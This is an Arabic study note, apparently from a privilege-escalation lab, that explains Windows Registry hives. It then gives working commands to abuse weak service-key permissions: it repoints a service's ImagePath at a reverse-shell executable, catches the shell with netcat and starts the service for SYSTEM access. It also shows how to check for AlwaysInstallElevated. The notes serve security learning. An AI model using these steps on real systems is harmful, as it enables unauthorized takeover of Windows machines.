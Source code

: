 -------------------------------------------

# Windows Registery
==الـ **Windows Registry** هو مكون أساسي في نظام التشغيل Windows، حيث يعمل كقاعدة بيانات مركزية لتخزين إعدادات النظام والتطبيقات. وهو منظم في شكل هيكلي، ويحتوي على **مفاتيح (Keys)** تمثل كالأدلة و**قيم (Values)** تحتوي على بيانات التكوين الضرورية لتشغيل النظام والتطبيقات.==
++++++++++++++++++++++++++++++++++++++++++++++++++++++++
 توضيح للأقسام الأساسية (Hives) الشائعة في الـ Registry:

- **HKEY_CURRENT_USER (==HKCU==)**: يحتوي على إعدادات خاصة بالمستخدم الحالي.
- **HKEY_LOCAL_MACHINE (==HKLM==)**: يخزن إعدادات على مستوى النظام، بما في ذلك تكوينات الأجهزة والبرامج المثبتة.

#  Weak Registry Permissions
1-يسمح لك بمشاهدة تفاصيل الخدمة، بما في ذلك `SERVICE_START_NAME`، والذي يشير إلى الامتيازات التي تعمل بها الخدمة (عادة بصلاحيات SYSTEM).
```

sc qc regsvc

```

2-استخدام `accesschk.exe` للتحقق من الصلاحيات
```

C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc


```

3-تعديل قيمة `ImagePath` باستخدام `reg add`

```

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

```

- `HKLM\SYSTEM\CurrentControlSet\services\regsvc`: يشير إلى مسار المفتاح الهدف.
- `/v ImagePath`: يحدد اسم القيمة (ImagePath) المراد تعديلها.
- `/t REG_EXPAND_SZ`: يحدد نوع البيانات كسلسلة قابلة للتوسيع.
- `/d C:\PrivEsc\reverse.exe`: يعيّن المسار الجديد للبرنامج التنفيذي.
- `/f`: يجبر العملية ويقوم بالكتابة دون طلب تأكيد.

**ملاحظة**: بهذا التعديل، سيتم تشغيل `reverse.exe` بصلاحيات SYSTEM عند بدء الخدمة `regsvc`.

nc -lvnp [port]

net start regsvc


----------------------------------------------------

# AlwaysInstallElevated
1- فحص إعدادات AlwaysInstallElevated في الريجستري:
```
1-

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

2-

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


```